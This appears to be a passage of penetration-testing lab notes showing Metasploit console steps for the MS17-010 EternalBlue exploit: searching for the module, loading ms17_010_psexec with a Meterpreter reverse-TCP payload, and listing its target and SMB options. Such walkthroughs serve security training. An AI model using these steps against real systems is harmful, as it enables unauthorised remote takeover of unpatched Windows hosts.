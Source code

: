 ```Output
                      .

       =[ metasploit v6.0.16-dev                          ]
+ -- --=[ 2074 exploits - 1124 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]
```
**One the console is running, you can search for exploits**
```Input
msf6 > search exploit eternalblue
```
```Output
Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```
**Another search**
```Input
msf6 > use exploit/windows/smb/ms17_010_psexec
```
```Output
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```
**Exploit Found!** Now you must configure the options
```Input
Module options (exploit/windows/smb/ms17_010_psexec):
```
```Output
 Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```